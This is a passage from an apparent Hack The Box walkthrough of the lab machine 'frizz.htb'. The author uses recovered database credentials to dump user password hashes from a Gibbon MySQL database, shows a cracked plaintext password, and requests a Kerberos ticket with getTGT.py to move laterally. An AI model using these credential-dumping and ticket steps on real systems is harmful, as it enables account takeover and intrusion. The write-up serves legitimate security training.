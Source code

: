 We have gotten the valid credit of database, so we can try to get the other's credit by accessing to database.
Firstly, we need to redirect to `C:\xampp\mysql\bin` to get the path of  `mysql.exe`
Then we can try to check the hashes.
```
.\mysql.exe -h localhost -u MrGibbonsDB "-pMisterGibbs!Parrot!?1" -Bse "show databases;"
gibbon
information_schema
test

.\mysql.exe -h localhost -u MrGibbonsDB "-pMisterGibbs!Parrot!?1" -Bse "use gibbon;show tables;"

.\mysql.exe -h localhost -u MrGibbonsDB "-pMisterGibbs!Parrot!?1" -Bse "use gibbon;DESC gibbonperson;"
username        varchar(20)     NO      UNI     NULL
passwordStrong  varchar(255)    NO              NULL
passwordStrongSalt      varchar(255)    NO              NULL
passwordForceReset      enum('N','Y')   NO              N

.\mysql.exe -h localhost -u MrGibbonsDB "-pMisterGibbs!Parrot!?1" -Bse "use gibbon;select * from gibbonperson;"

0000000001      Ms.     Frizzle Fiona   Fiona   Fiona Frizzle           Unspecified     f.frizzle       067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03       /aACFhikmNopqrRTVz2489   N       Full    Y       001     001     NULL    f.frizzle@frizz.htb     NULL    NULL    ::1     2024-10-29 09:28:59     NULL    NULL    0              NULL             NULL    NULL    NULL                                                    Y       Y       N       NULL                            NULL    NULL    NULL    NULL   NULL     NULL                            Y       NULL    NULL    NULL
```

Then  we finally get the hash here, let's try to crack it to switch into `f.frizzle`
`067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489:Jenni_Luvs_Magic23`
The password is `Jenni_Luvs_Magic23`

We need to get the Kerberos ticket to allow us to ssh or evil-winrm
```
krb5.conf

[libdefaults]
default_realm = FRIZZ.HTB
dns_lookup_realm = false
dns_lookup_kdc = true
ticket_lifetime = 24h
renew_lifetime = 7d
forwardable = true
proxiable = true
clockskew = 300

[realms]
FRIZZ.HTB = {
kdc = frizzdc.frizz.htb
admin_server = frizzdc.frizz.htb
default_domain = frizz.htb
}

[domain_realm]
.frizz.htb = FRIZZ.HTB
frizz.htb = FRIZZ.HTB

sudo ntpdate 10.10.11.60

getTGT.py frizz.htb/f.frizzle

export KRB5CCNAME=f.frizzle.ccache
```